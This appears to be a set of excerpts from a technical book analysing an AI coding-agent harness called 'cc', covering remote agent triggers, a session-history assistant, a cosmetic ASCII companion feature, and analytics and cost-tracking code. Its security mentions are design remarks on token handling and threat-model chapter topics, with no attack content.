HER Section 9.1 describes three tiers of multi-agent orchestration: in-process subagents, local orchestrators, and cloud async. cc implements all three, but the remote agent tier diverges in several ways:

1. **API-driven trigger management.** The HER pattern assumes that cloud agents are triggered through a generic message-passing system. cc uses a REST API (`/v1/code/triggers`) with specific CRUD operations (list, get, create, update, run), which is more structured but less flexible than a pure message-passing approach. The API's structured schema allows the tool to validate inputs before making the network call, reducing wasted API requests.

2. **Polling-based event stream.** The HER pattern implies a push-based event system where the cloud agent proactively notifies the local parent. cc uses a pull-based polling model where the local session periodically fetches events via `pollRemoteSessionEvents()`. This simplifies the cloud-side implementation (no WebSocket or webhook callback infrastructure) at the cost of increased latency and unnecessary API calls when the remote agent is idle.

3. **In-process authentication.** The HER pattern does not address authentication for cloud-to-local communication. cc's `RemoteTriggerTool` handles OAuth authentication entirely in-process at `src/tools/RemoteTriggerTool/RemoteTriggerTool.ts:L79-L98`, ensuring that the token never reaches the shell or any subprocess. This is a security-critical decision that prevents token exfiltration through compromised tools or hooks.

4. **Multiple remote task types with heterogeneous completion semantics.** The HER pattern assumes a single remote agent type. cc defines five remote task types at `src/tasks/RemoteAgentTask/RemoteAgentTask.tsx:L60-L61`, each with its own completion checker and state machine. This heterogeneity reflects the real-world diversity of autonomous coding tasks: an `autofix-pr` task completes when the PR is merged, while an `ultrareview` task completes when the report is generated.

5. **Review progress tracking.** The HER pattern does not address progress visibility for long-running remote tasks. cc's `reviewProgress` field at `src/tasks/RemoteAgentTask/RemoteAgentTask.tsx:L44-L50` provides structured stage data that is surfaced in the UI, giving the user real-time visibility into what the remote agent is doing.

## Developer takeaways for building a long-running agent

1. **Authenticate in-process, not through the shell.** The `RemoteTriggerTool`'s OAuth flow runs entirely within the agent process. Passing tokens through shell variables or command-line arguments creates exfiltration vectors. Use `checkAndRefreshOAuthTokenIfNeeded()` to handle token lifecycle transparently.

2. **Use polling when push is unavailable.** cc's pull-based model trades latency for implementation simplicity. The `pollStartedAt` field prevents false timeouts on restored sessions by basing timeout calculations on poll start time, not task creation time.

3. **Register type-specific completion checkers.** An `autofix-pr` task is complete when the PR is merged, not when the agent finishes. The `registerCompletionChecker()` pattern adds new completion semantics without modifying the core polling loop.

4. **Persist metadata for crash recovery.** Running remote tasks continue in the cloud after a local crash. `writeRemoteAgentMetadata()` at `src/tasks/RemoteAgentTask/RemoteAgentTask.tsx:L92-L98` allows restored sessions to reattach, preventing orphaned agents that consume cloud resources without a local observer.

5. **Gate remote execution behind policy, not just feature flags.** cc uses `isPolicyAllowed('allow_remote_sessions')` separately from the GrowthBook flag, ensuring policy restrictions take effect even when the feature flag is enabled.

6. **Design for idempotent trigger execution.** The ACRFence Action Replay attack (arXiv:2603.20625) is mitigated by server-side deduplication of the `run` action. Any remote-agent integration should include server-side deduplication, not just client-side guards.
# KAIROS Assistant, Buddy, and Experimental Layers

## Overview

Not every subsystem in cc serves the core agent loop. Two feature-gated layers sit alongside the tool dispatch pipeline and query engine: the KAIROS assistant and the Buddy companion. The KAIROS assistant adds proactive, session-history-aware behavior through paginated API calls to the CCR backend. The Buddy subsystem is a Tamagotchi-style easter egg that renders ASCII sprites in the terminal, driven by deterministic seeded randomness from the user's identity. Both are feature-gated and exist behind `bun:bundle` feature flags, meaning external builds ship stub modules that compile to no-ops.

Beyond these two, cc carries other feature-gated experiments that follow the same pattern: compile-time elimination via `feature()` from `bun:bundle`, runtime degradation to a no-op when the flag is off, and zero-cost when disabled. The `ABLATION_BASELINE` flag disables thinking, compaction, auto-memory, and background tasks for controlled comparison experiments. GrowthBook gates like `tengu_iron_gate_closed` and `tengu_plan_mode_interview_phase` control runtime behavior without changing the bundle. This chapter focuses on KAIROS and Buddy as the two most architecturally complete experimental layers, but the pattern they establish -- feature gate, deterministic core, graceful degradation -- applies across all of cc's experimental surfaces.

These layers matter for harness engineering because they illustrate two important patterns: (1) proactive affordances that surface context before the user asks (HER Section 11's "confidence-based routing" and "context-rich escalation"), and (2) the UX warmth principle, where a long-running agent that feels alive and responsive reduces the over-trust risk described in HER Section 18. A terminal agent that stares silently for hours invites either blind trust or abandonment; a companion sprite that fidgets and an assistant that proactively loads relevant history both serve as continuous "I am here and processing" signals.

At first glance, the Buddy subsystem appears to be pure whimsy -- ASCII art ducks, cats, and dragons with randomly generated stats. But its design encodes several security-relevant decisions: determinism from user identity prevents gaming, bones are always re-derived (never stored) to prevent forgery, and the separation of cosmetic state from functional state ensures that a bug in sprite rendering cannot affect the agent's behavior. These are the same principles that govern safety-critical subsystems, applied at a much lower stakes level.

The KAIROS assistant, meanwhile, represents cc's most direct implementation of HER Section 11's "context-rich escalation" pattern. By proactively loading session history from the CCR backend, the assistant ensures that when the agent encounters a decision point, it already has prior context loaded rather than requiring the user to re-explain what happened in previous sessions. This is not the same as the "confidence-based routing" that HER Section 11.1 describes -- the assistant does not make routing decisions -- but it provides the information that would be needed for such routing.

## Data structures and contracts

The session history module defines the paged retrieval contract for the KAIROS assistant. Events are fetched from a CCR events endpoint using cursor-based pagination. Each page contains a chronologically-ordered list of SDK messages, a cursor for the next-older page, and a boolean indicating whether more events exist.

```typescript
// src/assistant/sessionHistory.ts:L9-L16
export type HistoryPage = {
  /** Chronological order within the page. */
  events: SDKMessage[]
  /** Oldest event ID in this page → before_id cursor for next-older page. */
  firstId: string | null
  /** true = older events exist. */
  hasMore: boolean
}
```

The `HistoryAuthCtx` type bundles the authentication context needed for all page fetches, avoiding redundant OAuth token requests on each page:

```typescript
// src/assistant/sessionHistory.ts:L25-L28
export type HistoryAuthCtx = {
  baseUrl: string
  headers: Record<string, string>
}
```

The authentication context is constructed via `createHistoryAuthCtx`, which calls `prepareApiRequest()` to obtain OAuth tokens and organization UUID (`src/assistant/sessionHistory.ts:L31-L43`). The resulting base URL points to the CCR session events endpoint, and headers carry the `anthropic-beta: ccr-byoc-2025-07-29` header for feature flagging.

The Buddy companion uses a seeded PRNG (`mulberry32`) to deterministically derive companion traits from the user's identity string. The `CompanionBones` type (imported from `./types.js`) carries the species, eye style, hat, rarity, and stat block. The `Roll` type wraps bones with an inspiration seed:

```typescript
// src/buddy/companion.ts:L86-L89
export type Roll = {
  bones: CompanionBones
  inspirationSeed: number
}
```

Rarity is rolled from weighted buckets, then stats are generated with one peak stat and one dump stat, the rarity floor setting the baseline. The `RARITY_FLOOR` constant defines minimum stat values per rarity tier:

```typescript
// src/buddy/companion.ts:L53-L59
const RARITY_FLOOR: Record<Rarity, number> = {
  common: 5,
  uncommon: 15,
  rare: 25,
  epic: 35,
  legendary: 50,
}
```

The stat rolling algorithm creates asymmetric distributions that make each companion feel unique while respecting the rarity floor:

```typescript
// src/buddy/companion.ts:L62-L82
function rollStats(
  rng: () => number,
  rarity: Rarity,
): Record<StatName, number> {
  const floor = RARITY_FLOOR[rarity]
  const peak = pick(rng, STAT_NAMES)
  let dump = pick(rng, STAT_NAMES)
  while (dump === peak) dump = pick(rng, STAT_NAMES)

  const stats = {} as Record<StatName, number>
  for (const name of STAT_NAMES) {
    if (name === peak) {
      stats[name] = Math.min(100, floor + 50 + Math.floor(rng() * 30))
    } else if (name === dump) {
      stats[name] = Math.max(1, floor - 10 + Math.floor(rng() * 15))
    } else {
      stats[name] = floor + Math.floor(rng() * 40)
    }
  }
  return stats
}
```

The `SALT` constant ensures that the hash input cannot be guessed from external knowledge of the user ID alone (`src/buddy/companion.ts:L84`). The companion's identity depends on both the user ID and this salt, meaning that a new version of cc with a different salt would generate different companions for the same users.

The persisted companion data is split into "soul" (stored in config) and "bones" (always re-derived). The `CompanionSoul` type carries the model-generated personality traits, while `StoredCompanion` is what actually goes into the global config:

```typescript
// src/buddy/types.ts:L110-L124
export type CompanionSoul = {
  name: string
  personality: string
}

export type Companion = CompanionBones &
  CompanionSoul & {
    hatchedAt: number
  }

// What actually persists in config. Bones are regenerated from hash(userId)
// on every read so species renames don't break stored companions and users
// can't edit their way to a legendary.
export type StoredCompanion = CompanionSoul & { hatchedAt: number }
```

This split ensures that the config file never stores rarity, species, or stats -- fields that could be edited to fake a "legendary" companion. Bones are always regenerated from the deterministic hash, overriding any stale values in the config.

```mermaid
classDiagram
    class Roll {
      +CompanionBones bones
      +number inspirationSeed
    }
    class CompanionBones {
      +Rarity rarity
      +Species species
      +Eye eye
      +Hat hat
      +boolean shiny
      +Record~StatName_number~ stats
    }
    class RARITY_FLOOR {
      <<constant>>
      common 5
      uncommon 15
      rare 25
      epic 35
      legendary 50
    }
    class BODIES {
      <<Record~Species_string[][]~>>
      +frames per species
      +5 lines per frame
    }
    class HAT_LINES {
      <<Record~Hat_string~>>
      none crown tophat
      propeller halo wizard
      beanie tinyduck
    }
    Roll --> CompanionBones
    CompanionBones --> RARITY_FLOOR : rarity lookup
    CompanionBones --> BODIES : species key
    CompanionBones --> HAT_LINES : hat key
```

## Control flow

The KAIROS session history flow follows a standard cursor-based pagination pattern. Authentication is prepared once via `createHistoryAuthCtx`, then pages are fetched using `fetchLatestEvents` (newest page anchored to the latest event) and `fetchOlderEvents` (cursor-based backward traversal).

```mermaid
sequenceDiagram
    participant Agent as Agent Loop
    participant SH as sessionHistory
    participant API as CCR Events API

    Agent->>SH: createHistoryAuthCtx(sessionId)
    SH->>API: prepareApiRequest() → OAuth tokens
    SH-->>Agent: HistoryAuthCtx {baseUrl, headers}

    Agent->>SH: fetchLatestEvents(ctx, limit=100)
    SH->>API: GET /v1/sessions/{id}/events?limit=100&anchor_to_latest=true
    API-->>SH: {data, has_more, first_id}
    SH-->>Agent: HistoryPage {events, firstId, hasMore}

    loop hasMore = true
        Agent->>SH: fetchOlderEvents(ctx, beforeId=firstId)
        SH->>API: GET /v1/sessions/{id}/events?limit=100&before_id={firstId}
        API-->>SH: HistoryPage
        SH-->>Agent: HistoryPage
    end
```

The `fetchPage` helper is the core network function. It sends a GET request with a 15-second timeout and `validateStatus: () => true` to handle any HTTP status without throwing. If the response is not 200 or the request fails entirely, it returns `null` rather than throwing, allowing callers to gracefully handle network errors (`src/assistant/sessionHistory.ts:L45-L67`). The `HISTORY_PAGE_SIZE` constant of 100 events per page balances network efficiency against memory consumption for large sessions.

The Buddy companion generation flow is deterministic: the same user identity always produces the same companion. A hash of `userId + SALT` seeds the PRNG, and the result is cached in a module-level variable since the same user cannot change their own UUID mid-session. The `roll` function checks a module-level cache keyed on `userId + SALT` and returns the cached result if it matches:

```typescript
// src/buddy/companion.ts:L107-L113
export function roll(userId: string): Roll {
  const key = userId + SALT
  if (rollCache?.key === key) return rollCache.value
  const value = rollFrom(mulberry32(hashString(key)))
  rollCache = { key, value }
  return value
}
```

The `getCompanion` function merges freshly-derived bones with stored "soul" data from the global config. Bones never persist, so species renames and array edits cannot break stored companions, and editing the config's companion field cannot fake a rarity:

```typescript
// src/buddy/companion.ts:L127-L133
export function getCompanion(): Companion | undefined {
  const stored = getGlobalConfig().companion
  if (!stored) return undefined
  const { bones } = roll(companionUserId())
  return { ...stored, ...bones }
}
```

The sprite rendering in `sprites.ts` takes the bones and a frame index, substituting the `{E}` placeholder with the actual eye character. The `BODIES` record maps each species to an array of animation frames, each frame being an array of 5 strings (lines). Hats are overlaid on the first line only when the frame is not using it for its own effects:

```typescript
// src/buddy/sprites.ts:L454-L469
export function renderSprite(bones: CompanionBones, frame = 0): string[] {
  const frames = BODIES[bones.species]
  const body = frames[frame % frames.length]!.map(line =>
    line.replaceAll('{E}', bones.eye),
  )
  const lines = [...body]
  if (bones.hat !== 'none' && !lines[0]!.trim()) {
    lines[0] = HAT_LINES[bones.hat]
  }
  if (!lines[0]!.trim() && frames.every(f => !f[0]!.trim())) lines.shift()
  return lines
}
```

The hat system defines eight hat types, from `none` (no hat) to `tinyduck` (a small duck perched on the companion's head). Hats are only displayed when the companion's rarity is not `common` -- common companions always have `hat: 'none'` (`src/buddy/companion.ts:L97`). The `HAT_LINES` record maps each hat to a 12-character-wide string that replaces the blank first line of the sprite.

The sprite/gacha pipeline combines the deterministic bone-derivation with the rendering subsystem. A "gacha" pull is not random in the traditional sense -- it is entirely deterministic from `userId + SALT` -- but the weighted rarity buckets and the seeded PRNG produce the same visual effect as a gacha system: users discover their companion's rarity and species only after the first render. The following classDiagram shows the gacha pipeline from identity to rendered sprite:

```mermaid
classDiagram
    class companionUserId {
        +getGlobalConfig()
        +oauthAccount?.accountUuid
        +userID
        +anon
    }
    class hashString {
        +FNV-1a fallback
        +Bun.hash fast path
    }
    class mulberry32 {
        +seeded PRNG
        +32-bit state
    }
    class rollFrom {
        +rollRarity(rng)
        +pick(rng, SPECIES)
        +pick(rng, EYES)
        +pick(rng, HATS)
        +rollStats(rng, rarity)
    }
    class Roll {
        +CompanionBones bones
        +number inspirationSeed
    }
    class CompanionBones {
        +Rarity rarity
        +Species species
        +Eye eye
        +Hat hat
        +boolean shiny
        +Record~StatName_number~ stats
    }
    class renderSprite {
        +BODIES[species]
        +replaceAll {E} → eye
        +HAT_LINES[hat] overlay
        +height normalization
    }
    class StoredCompanion {
        +string name
        +string personality
        +number hatchedAt
    }
    class getCompanion {
        +roll(userId).bones
        +getGlobalConfig().companion
        +merge soul + bones
    }
    companionUserId --> hashString : identity string
    hashString --> mulberry32 : seed
    mulberry32 --> rollFrom : rng
    rollFrom --> Roll : gacha output
    Roll --> CompanionBones : .bones
    CompanionBones --> renderSprite : render
    StoredCompanion --> getCompanion : soul
    Roll --> getCompanion : bones override
    getCompanion --> CompanionBones : final merged
```

The `companionUserId` function resolves the user identity for companion generation, preferring the OAuth account UUID and falling back to the anonymous user ID:

```typescript
// src/buddy/companion.ts:L119-L122
export function companionUserId(): string {
  const config = getGlobalConfig()
  return config.oauthAccount?.accountUuid ?? config.userID ?? 'anon'
}
```

## Edge cases and failure modes

**KAIROS auth unavailability.** The `createHistoryAuthCtx` function calls `prepareApiRequest()`, which may fail if OAuth tokens are expired or the trust dialog has not been accepted. Interactive sessions without trust established will fail to create the auth context, and no history pages can be fetched. The assistant degrades gracefully: if no history is available, the agent proceeds without prior context, the same as a fresh session.

**API pagination errors.** The `fetchPage` helper uses `validateStatus: () => true` and `.catch(() => null)`, meaning any HTTP error or network failure returns `null` rather than throwing (`src/assistant/sessionHistory.ts:L45-L67`). Callers must handle `null` pages gracefully, treating them as "no more events available." This design ensures that a transient network blip does not crash the agent; it means the assistant has less prior context to work with.

**Buddy roll cache invalidation.** The `rollCache` is a module-level variable keyed on `userId + SALT`. If the user's OAuth account changes mid-session (e.g., login to a different org), `companionUserId()` will return a different UUID, but the stale cache entry remains until the process restarts. This is an acceptable tradeoff since the companion is cosmetic and user identity changes are rare.

**Determinism across builds.** The `SPECIES` and `EYES` arrays are defined in `./types.js`. If these arrays are reordered between builds, the same seed produces a different species/eye combination. The design compensates by separating "bones" (always re-derived) from "soul" (persisted in config), so a species rename never breaks stored companions. However, this means that cc must maintain backward compatibility in the types module: removing a species or changing its name would cause existing users to see different companions after an upgrade.

**Frame rendering height oscillation.** The `renderSprite` function drops the first line (hat slot) only when ALL frames for that species have a blank first line (`src/buddy/sprites.ts:L466-L467`). This prevents the rendered height from oscillating between frames when one frame uses line 0 for an effect (like the dragon's `~` smoke) and another does not. Without this check, the terminal display would jump by one line every time the animation frame changed.

**mulberry32 hash collision risk.** The `hashString` function uses FNV-1a hashing on platforms where `Bun.hash` is unavailable (`src/buddy/companion.ts:L27-L37`). FNV-1a is not cryptographically resistant to collision, but for companion generation (a cosmetic feature), hash collisions are acceptable. Two users with colliding hashes would receive the same companion, which is a minor aesthetic issue, not a security vulnerability.

## Where cc diverges from the published pattern

HER Section 11 describes "confidence-based routing" where the agent itself decides whether to proceed autonomously or escalate. The KAIROS assistant takes a different approach: it proactively loads session history before the user asks, but it does not make autonomous routing decisions. The loaded context is injected for the model to use, but the model (not the assistant) decides whether the context warrants action. This is a "sensor-only" pattern: the assistant observes and surfaces, but does not route.

HER Section 11.3 describes "async approval" where the agent parks a blocked action and continues with other work. The KAIROS assistant's history fetch is fully async and non-blocking, but it does not park actions -- it enriches context. There is no approval gate in the KAIROS flow; the assistant loads data unconditionally, and the model decides what to do with it.

HER Section 11.4 describes "context-rich escalation" where the agent provides full context when escalating to a human. The KAIROS assistant's session history feature directly supports this pattern by providing prior session context, but the assistant does not generate the escalation message itself -- it merely makes the information available.

HER Section 18 warns about the "Ouroboros problem" -- when both generator and evaluator are LLMs, who validates the validator? The Buddy subsystem sidesteps this entirely: its stat generation is deterministic (seeded PRNG, not LLM-judged), and the companion's behavior is purely cosmetic. No LLM is involved in any Buddy decision, making it immune to the generator-evaluator loop problem.

HER Section 18.3 describes the "stone soup attribution problem" where massive human labor gets misattributed to AI capability. The Buddy sprite's visible presence serves as a constant, low-key reminder that the agent is a tool, not a colleague. The randomly generated stats with names like DEBUGGING, CHAOS, and SNARK undercut any tendency to interpret the companion's behavior as meaningful intelligence.

However, the Buddy system also introduces a tension that HER Section 18 does not fully address: the over-trust risk of emotional attachment. A companion with persistent identity -- the same species, the same stats, the same hat across every session -- creates a parasocial bond. The user does not merely see an indicator light; they see *their* duck with *their* tophat, and this possessiveness ("my companion") is precisely the emotional hook that makes the feature effective as a presence signal. The `StoredCompanion` type in `src/buddy/types.ts:L110-L114` persists a user-chosen name and a model-generated personality alongside the `hatchedAt` timestamp, reinforcing this bond: the companion has a birthday, a name, and a disposition.

This is both a feature and a risk. On the feature side, a companion the user cares about reduces the likelihood of treating the agent as disposable -- users who name their companion are less likely to blindly `y` through permission prompts, because the companion's presence makes the session feel like a collaboration rather than a fire-and-forget transaction. On the risk side, parasocial attachment can invert: a user who feels warmly toward their companion may extend that warmth to the agent's *outputs*, giving undue weight to model suggestions because the companion makes the interaction feel trustworthy. HER Section 18.4 warns about limited applicability beyond coding, and this over-trust risk is a concrete instance: the emotional affordance that keeps users engaged in long-running coding sessions would be actively harmful in domains where the agent's suggestions should be treated skeptically.

cc's mitigation is subtle but deliberate: the stat names (DEBUGGING, CHAOS, SNARK) are explicitly tongue-in-cheek, the companion's fidget animation is intermittent rather than constant, and the companion has no influence on any agent decision. The companion cannot approve a tool call, cannot modify a file, and cannot route a query. It is purely a display-layer signal. This architectural decision -- cosmetic state strictly separated from functional state -- ensures that the emotional affordance exists only at the presentation layer and cannot leak into the decision layer.

Beyond KAIROS and Buddy, cc carries other feature-gated experimental layers that follow the same compile-time elimination pattern. The `ABLATION_BASELINE` flag, when enabled, disables thinking, compaction, auto-memory, and background tasks simultaneously, producing a stripped-down agent suitable for controlled comparison experiments. GrowthBook feature gates like `tengu_iron_gate_closed` and `tengu_plan_mode_interview_phase` control runtime behavior without changing the bundle: they are evaluated at query time through the GrowthBook SDK, and their effect is to enable or disable code paths that already exist in the binary. The distinction between `bun:bundle` feature flags (compile-time, zero-cost when off) and GrowthBook gates (runtime, minimal cost when off) is architecturally significant. Compile-time flags are appropriate for experimental subsystems that would add import cycles or bundle size; runtime flags are appropriate for behavioral toggles that may change between queries without a restart. This two-tier gating strategy allows cc to ship experimental code in production without affecting users who have not opted in, while still collecting metrics on the experiments that are enabled.

## Developer takeaways for building a long-running agent

1. **Deterministic-from-identity generation prevents gaming.** Bones are always re-derived from a seeded PRNG keyed on `userId + SALT`, so a user cannot edit their config to produce a "legendary" companion. Any cosmetic "roll" feature in a long-running agent should follow this pattern.

2. **Cursor-based pagination with null-return error handling is the right pattern for history APIs.** The `fetchPage` function's `validateStatus: () => true` and `.catch(() => null)` pattern means the agent loop never crashes on a network blip. Every external API call in a long-running agent must degrade gracefully.

3. **Feature-gated experimental layers must compile to zero cost when disabled.** Both KAIROS and Buddy use `bun:bundle` feature flags with dead-code elimination. When the feature is off, the code is not in the bundle. Experimental features must not add startup latency, bundle size, or import cycles when disabled. The same pattern applies to GrowthBook gates and ablation flags.

4. **Separate cosmetic state from functional state.** The Buddy subsystem's "bones vs soul" architecture ensures that visual/cosmetic data is always re-derived from a deterministic source while persistent data is stored separately. A bug in sprite rendering cannot corrupt the agent's functional state. For long-running agents, any auxiliary feature with both visual and functional components should maintain this separation.
# Part IX. Observability, Cost, and Security

A system that cannot be observed cannot be trusted. Part IX covers the three pillars of production reliability: observability (analytics and diagnostics), cost management (token tracking and budgeting), and security (the threat model and defense-in-depth architecture). These are the systems that determine whether an agent is safe to run in production, not just in a demo.

The theme of Part IX is the infrastructure of trust. These three chapters are grouped together because they address the meta-question: how do you know the agent is behaving correctly, how much is it costing, and what threats does it face? Without observability, failures are silent. Without cost tracking, budgets explode. Without a threat model, defenses are ad hoc. Together, these three perspectives provide the foundation for trusting an agent in production.

These three pillars are deeply interconnected. Observability provides the data that drives cost tracking: without accurate event logging, you cannot know how many tokens were consumed. Cost tracking provides the constraints that shape security policy: without budget limits, a compromised agent can run up unlimited costs. And security provides the guarantees that make observability trustworthy: without defense against prompt injection, the agent's own logs cannot be trusted. Understanding these interconnections is essential for building a production-grade agent.

Chapter 50 covers analytics, cost tracking, and GrowthBook -- the sink interface, Datadog integration, GrowthBook feature flags, first-party logging, tengu events, cost tracker, and PII markers. The analytics system is cc's implementation of HER's Section 14 (Observability): it provides the three pillars of observability (logging, metrics, and tracing) through a pluggable sink interface that can route events to multiple backends. The cost tracker monitors token consumption in real time and enforces budget limits, implementing HER's Section 13 (Cost Management and Budgeting). GrowthBook feature flags allow cc to enable and disable features dynamically without code changes, providing the operational control that production systems require.

Chapter 51 examines debug logs, diagnostics, and the Doctor tool -- debug logging, diagnostic logs, the Doctor screen, the security review command, and performance issue collection. While the analytics system (Chapter 50) covers structured event logging, debug logs cover the unstructured diagnostic output that engineers need when troubleshooting specific issues. The Doctor tool provides a self-diagnostic capability: it checks the system's health, identifies common configuration problems, and suggests fixes. Together, these tools address HER's failure mode 6.6 (Silent Failures) by ensuring that problems are visible and diagnosable.

Chapter 52 walks through cc's threat model through the lens of HER Section 12 -- the five-layer defense-in-depth, mapping each layer to cc's concrete defenses, covering prompt injection, supply chain attacks via MCP, skills, and plugins, system-prompt leakage, data exfiltration, and checkpoint-restore side effects. This chapter is the culmination of the safety analysis that runs throughout the book: it synthesizes the permission model (Part VI), the tool safety checks (Part III), the hook system (Part VI), and the interaction surfaces (Part VII) into a unified threat model. It answers the question: if an adversary wanted to compromise a cc session, what attacks would they attempt, and how would cc's defenses respond?

By the end of this Part, you should understand how cc makes its behavior observable through analytics and diagnostics, how it tracks and controls costs through token metering and budgeting, and how it defends against the threat landscape documented in HER Section 12. This is the foundation for the synthesis in Part X, which evaluates cc's overall trustworthiness as a long-running agent harness.

Return to the Table of Contents in the front matter for an overview of all ten parts and fifty-seven chapters.
# Analytics, Cost Tracking, and GrowthBook

## Overview

A long-running agent without observability is a black box that silently burns tokens and money. But observability is not a single thing: there is a fundamental split between *observability for the operator* -- dashboards, logs, and cost displays that a human reads -- and *observability for the agent itself* -- feedback loops that let the harness adjust its own behavior based on accumulated metrics. cc implements the first thoroughly and the second barely at all. Understanding why this split exists, and what it costs, is the central architectural lesson of this chapter.

cc addresses observability through three tightly integrated subsystems: an analytics event pipeline (sink interface, queuing, and fanout to Datadog and first-party logging), a cost tracker that accumulates per-model token usage and USD cost across sessions, and a GrowthBook integration that provides feature-flag evaluation with disk-cached fallback and periodic refresh. These three subsystems share a common design philosophy: they degrade gracefully for human operators while offering no feedback path for the agent itself. Together, these subsystems implement the three pillars of agent observability described in HER Section 14 -- traces (via the analytics event pipeline), metrics (via cost tracking and token metering), and logs (via the debug logging system). They also address HER Section 13's cost management requirements: per-session cost caps, real-time token metering, and model-level cost breakdowns.

The analytics service is deliberately dependency-free to avoid import cycles. Events are queued until a sink is attached during app initialization, at which point queued events are drained asynchronously via `queueMicrotask`. The cost tracker bridges the analytics pipeline and the bootstrap state module, converting raw API usage objects into USD costs and per-model token counts. GrowthBook provides the feature-flag layer that gates kill switches, model routing, and experimental features -- all with disk-cached fallback so a network outage during startup does not disable the agent.

HER Section 13 warns that enterprise budgets underestimate AI agent total cost of ownership (TCO) by 40-60%. Per CIO research cited in the report, enterprise spending on AI agents ranges from $3,200 to $13,000 per month per agent. The success stories that dominate the narrative -- Geoffrey Huntley's $297 for a $50K contract, Anthropic's $200 for 6 hours of harness work -- represent optimal outcomes with expert human steering. The report advises budgeting 3-10x these figures for realistic multi-hour production use. cc's cost tracker provides the per-session visibility needed to move from anecdotal cost estimates to data-driven budgeting, though it does not enforce hard caps as HER recommends. The cost tracker's `addToTotalSessionCost` function is the primary accumulator, called after every API response. It breaks down costs by model name, token type (input, output, cache read, cache creation), and speed tier (fast mode). The `formatTotalCost` function displays this breakdown at session end, giving operators the per-model visibility needed for the "semantic routing" optimization described in HER Section 13.3.

## Data structures and contracts

The analytics sink interface is the core abstraction. Any backend (Datadog, first-party, console) implements two methods:

```typescript
// src/services/analytics/index.ts:L72-L78
export type AnalyticsSink = {
  logEvent: (eventName: string, metadata: LogEventMetadata) => void
  logEventAsync: (
    eventName: string,
    metadata: LogEventMetadata,
  ) => Promise<void>
}
```

The PII marker type enforces that string values in analytics metadata are explicitly verified before logging. This prevents accidentally including code snippets, file paths, or other sensitive data in events. The type resolves to `never`, so the only way to pass a string is to cast it with `as AnalyticsMetadata_I_VERIFIED_THIS_IS_NOT_CODE_OR_FILEPATHS`, which serves as an explicit acknowledgment:

```typescript
// src/services/analytics/index.ts:L11-L19
/**
 * Marker type for verifying analytics metadata doesn't contain sensitive data
 *
 * This type forces explicit verification that string values being logged
 * don't contain code snippets, file paths, or other sensitive information.
 *
 * Usage: `myString as AnalyticsMetadata_I_VERIFIED_THIS_IS_NOT_CODE_OR_FILEPATHS`
 */
export type AnalyticsMetadata_I_VERIFIED_THIS_IS_NOT_CODE_OR_FILEPATHS = never
```

The PII marker type is a social convention, not a hard security boundary. TypeScript's type system is erased at runtime: a developer who writes `someString as AnalyticsMetadata_I_VERIFIED_THIS_IS_NOT_CODE_OR_FILEPATHS` has not actually verified anything -- they have merely told the compiler to accept the value. The cast is an assertion, not a proof. In a code review, the cast's verbose name creates a moment of deliberate pause, which is its real value: it makes the decision to log a string value visible and attributable. But the pattern has no enforcement mechanism beyond code review. A stronger alternative would be a runtime allowlist: instead of a `never` type that forces a cast, the `LogEventMetadata` type could accept only a closed set of known-safe string keys (session IDs, model names, event names), with all other values rejected at runtime. This trades developer convenience for genuine safety. An even stronger approach would be a build-time linter rule that flags any `as AnalyticsMetadata_I_VERIFIED_THIS_IS_NOT_CODE_OR_FILEPATHS` cast and requires a corresponding code-review approval comment, turning the social convention into a mechanical gate. The current design is appropriate for cc's threat model (a small, trusted team writing the harness), but a harness used by third-party plugin authors would need the runtime allowlist approach.

A second PII marker type handles values routed to privileged BigQuery columns. The `stripProtoFields` function removes `_PROTO_*` keys before Datadog fanout, ensuring that privileged values never reach general-access backends. The function returns the input reference unchanged when no `_PROTO_` keys are present, avoiding unnecessary object allocation in the common case:

```typescript
// src/services/analytics/index.ts:L45-L58
export function stripProtoFields<V>(
  metadata: Record<string, V>,
): Record<string, V> {
  let result: Record<string, V> | undefined
  for (const key in metadata) {
    if (key.startsWith('_PROTO_')) {
      if (result === undefined) {
        result = { ...metadata }
      }
      delete result[key]
    }
  }
  return result ?? metadata
}
```

The cost tracker's `StoredCostState` type captures the full cost snapshot for session persistence and resume. The `modelUsage` field maps model names to per-model token counts and USD cost, enabling restoration of the cost display when a session is resumed:

```typescript
// src/cost-tracker.ts:L71-L80
type StoredCostState = {
  totalCostUSD: number
  totalAPIDuration: number
  totalAPIDurationWithoutRetries: number
  totalToolDuration: number
  totalLinesAdded: number
  totalLinesRemoved: number
  lastDuration: number | undefined
  modelUsage: { [modelName: string]: ModelUsage } | undefined
}
```

GrowthBook's user attributes type carries targeting information for feature flag evaluation. The attributes include platform, organization, subscription type, and rate limit tier:

```typescript
// src/services/analytics/growthbook.ts:L32-L47
export type GrowthBookUserAttributes = {
  id: string
  sessionId: string
  deviceID: string
  platform: 'win32' | 'darwin' | 'linux'
  apiBaseUrlHost?: string
  organizationUUID?: string
  accountUUID?: string
  userType?: string
  subscriptionType?: string
  rateLimitTier?: string
  firstTokenTime?: number
  email?: string
  appVersion?: string
  github?: GitHubActionsMetadata
}
```

The `LogEventMetadata` type constrains analytics values to `boolean | number | undefined`, deliberately excluding strings to prevent PII leaks. This type-level constraint also reveals an architectural boundary: cc's analytics pipeline is a one-way street. Events flow out to external sinks but no code path reads them back, making the pipeline *observational* (a human reads the output) rather than *reflexive* (the agent reads its own output and adjusts). A harness that needs to close this loop -- for example, to implement the alerting patterns from HER Section 14.4 -- would need a second internal subscriber layer alongside the existing external sink, with less restrictive metadata types and synchronous read access to the event stream:

```typescript
// src/services/analytics/index.ts:L61
type LogEventMetadata = { [key: string]: boolean | number | undefined }
```

The `QueuedEvent` internal type wraps each buffered event with an `async` flag so that the drain logic knows whether to call `logEvent` or `logEventAsync` for each queued item. This distinction matters because `logEventAsync` returns a `Promise<void>` that the sink implementation may use for batching or rate limiting, while `logEvent` is fire-and-forget (`src/services/analytics/index.ts:L63-L67`).

The `getStoredSessionCosts` function reads cost state from project config for a specific session. It checks whether the session ID matches the last saved session (`projectConfig.lastSessionId`), and if so, reconstructs the model usage map with context window information. If the session ID does not match, it returns `undefined`, indicating that no valid cost data is available for restoration (`src/cost-tracker.ts:L87-L123`). The `saveCurrentSessionCosts` function persists the full cost snapshot to project config, including per-model token counts, cache statistics, and web search request counts. This persistence enables cost restoration when a session is resumed (`src/cost-tracker.ts:L143-L175`).

